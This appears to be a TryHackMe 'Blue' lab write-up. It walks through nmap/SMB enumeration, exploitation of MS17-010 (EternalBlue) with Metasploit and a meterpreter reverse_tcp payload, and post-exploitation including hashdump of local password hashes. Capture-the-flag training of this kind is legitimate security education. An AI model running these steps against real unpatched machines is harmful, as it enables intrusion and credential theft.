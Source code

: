 # TryHackMe: Blue
**Difficulty:** Easy
**Focus:** SMB enumeration, exploit EternalBlue vulnerability
**Tools Used:** nmap, smbclient, Metasploit

---

## 🕵️‍♂️ Enumeration

### Nmap scan
nmap -sC -sV -oN blue.txt[TARGET_IP]

### SMB shares
smbclient -L \[TARGET_IP] -N

---
## 🎯 Exploitation
Used Metasploit's EternalBlue module:

use/exploit/windows/smb/ms17_010_eternalblue

---
## 🧠 Lessons Learned
- How to identify vulnerable SMB services
- How EternalBlue exploits MS17-010
- Importance of patching critical vulnerabilities

---
# TryHackMe: Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
**Difficulty:** Easy  
**Objective:** Exploit the MS17-010 (EternalBlue) vulnerability in an unpatched Windows 7 machine using enumeration, Metasploit, and post-exploitation skills.

---

## 🖥️ Target Info

- **IP Address:** 10.10.241.131
- **Operating System:** Windows 7 SP1
- **Vulnerability:** MS17-010 / EternalBlue
- **Exploitation Tool:** Metasploit

---

## 🔎 Enumeration

### Nmap Command

nmap -sC -sV -oN blue.txt 10.10.241.131

**Key Findings**
- *Port 445 (SMB)* is open.
- Detected service: microsoft-ds Windows 7 Professional 7601 Service Pack 1
- Nmap script output:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143

---
## ⚔️ Exploitation - Metasploit
Initial Setup
- msfconsole
- use exploit/windows/smb/ms17_010_eternalblue
- set RHOSTS 10.10.241.131

### LHOST Challenge: Interface Troubleshooting
Initially, I attempted to set ```LHOST``` using common defaults like ```tun0``` or ```eth0```, but the ```ip a``` output showed no such interfaces.
Instead, my system listed:
- ```ens5``` -- primary TryHackMe interface
- ```docker0``` and multiple ```veth``` interfaces -- related to containers, **not usable**
I then used the following command to set the ```LHOST```:
- ```set LHOST ens5```
### Payload and Execution

```set PAYLOAD windows/x64/meterpreter/reverse_tcp```

```run```

### Post-Exploitation
Once access was gained, I executed the following:
- ```sysinfo``` - to confirm OS and architecture
- ```getuid``` - to check user context (got SYSTEM access)
- ```hashdump``` to collect local user hashes
- Retrieved flag from ```C:\Users\Bob\Desktop\flag.txt

---
# 🧠 Lessons Learned
- **Enumeration matters:** Nmap scripts quick confirmed MS17_010
- **Interface mismatches** are a common but solable issue in lab environments.
- **Adaptability is key** - when the default exploit path fails, adjusting payloads or parameters often resolves it.
- Even in controlled environments, **debugging network paths** and session failures simulates real-world troubleshooting.





